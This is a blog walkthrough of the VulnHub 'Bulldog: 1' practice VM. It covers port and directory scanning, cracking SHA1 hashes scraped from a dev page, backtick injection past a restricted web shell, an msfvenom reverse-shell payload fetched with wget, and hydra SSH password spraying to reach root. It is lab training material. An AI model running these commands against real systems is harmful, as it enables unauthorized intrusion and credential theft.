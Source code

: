 ```yaml
---
layout: post
last_modified_at: 2018-12-09 08:14:55 +0000
title: "Bulldog: 1 Walkthrough"
subtitle: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldog-1-walkthrough.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background
Bulldog Industries has its website defaced and gets owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :smile:

## Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looks like in my browser.

![screenshot-1](/assets/images/posts/bulldog-1-walkthrough/screenshot-1.png)

There's no clue in the HTML source of the landing page as well as its internal link, on how to proceed.

## Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4] to look for directories and/or files.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll appear in the `nmap` scan. Now, I've two more directories—`admin` and `dev` to explore.

## Under Development

This page `/dev` contains interesting information. There's a link to `/dev/shell`, I suppose, a web shell. Under the hood of the HTML source, there are SHA1 password-hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-1-walkthrough/screenshot-2.png)

Let's clean up the hashes and send them to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is a must, to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-1-walkthrough/screenshot-3.png)

## Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-1-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-1-walkthrough/screenshot-5.png)

I have a session with the site. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-1-walkthrough/screenshot-6.png)

Sweet. The web shell appears to restrict itself to certain commands.

## Command Substitution

One of my favorite features in `bash` is [command substitution][5] using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-1-walkthrough/screenshot-7.png)

## Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-1-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-1-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-1-walkthrough/screenshot-10.png)

Although a low-privilege shell appears, let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-1-walkthrough/screenshot-11.png)

## Privilege Escalation

I find two users—`django` and `bulldogadmin`, during enumeration. They can `sudo` as `root`. It's a pity I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-1-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-1-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-1-walkthrough/screenshot-14.png)

Notice `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-1-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-1-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-1-walkthrough/screenshot-17.png)

Seems like reverse engineering the ELF binary is my ticket to `root`.

## What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's what I did.

![screenshot-18](/assets/images/posts/bulldog-1-walkthrough/screenshot-18.png)

If you look past the "`H`", you see "`SUPERultimatePASSWORDyouCANTget`". I'll have my work cut short if this is the password belonging to any of the users, since they can `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-1-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-1-walkthrough/screenshot-20.png)

:dancer:

## Afterthought

If I had to guess, I would say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-1-walkthrough/screenshot-21.png)

To an attacker, a shell is a shell is a shell. :imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
